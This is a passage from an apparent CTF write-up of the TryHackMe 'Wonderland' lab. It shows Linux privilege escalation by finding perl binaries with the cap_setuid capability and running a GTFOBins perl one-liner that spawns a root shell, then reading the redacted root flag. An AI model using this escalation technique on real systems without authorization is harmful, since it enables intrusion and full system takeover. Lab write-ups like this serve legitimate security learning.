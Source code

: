 at this point I've been enumerating for quite some time but I hit a wall for the second time, couple hours passsed and I've decided to peak at a write up again, I found out that I should look for files with `capabilities(7)`, again something little obvious. but I probably wouldn't have known it since even tho I always heard of such things, I never interacted or took the time to get familliar with them

after some digging around I found a utlity called `getccap` that can display files with special capabilites, you can read it's man page to know more about it

```bash
hatter@wonderland:/home/hatter$ getcap -r / 2> /dev/null 
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep 
hatter@wonderland:/home/hatter$ ls -lh /usr/bin/perl5.26.1 /usr/bin/perl
-rwxr-xr-- 2 root hatter 2.1M Nov 19  2018 /usr/bin/perl
-rwxr-xr-- 2 root hatter 2.1M Nov 19  2018 /usr/bin/perl5.26.1
```

after looking up those executables in [gtfo bins](https://gtfobins.github.io/) I found a command I can use to spawn a root shell, and it worked on both binaries!

```bash
hatter@wonderland:~$ /usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
# 
```

### I'm groot

now that I'm root we can just get the `root.txt` flag

```bash
# cat /home/alice/root.txt
thm{REDACTED}
# 
```

### conclusion

wonderland was a really nice box, it had me banging my head against the wall couple times but I learned some new tricks that will probably come handy in the future, I hope you did as well, hopefully next time there would be less to no peaking at all
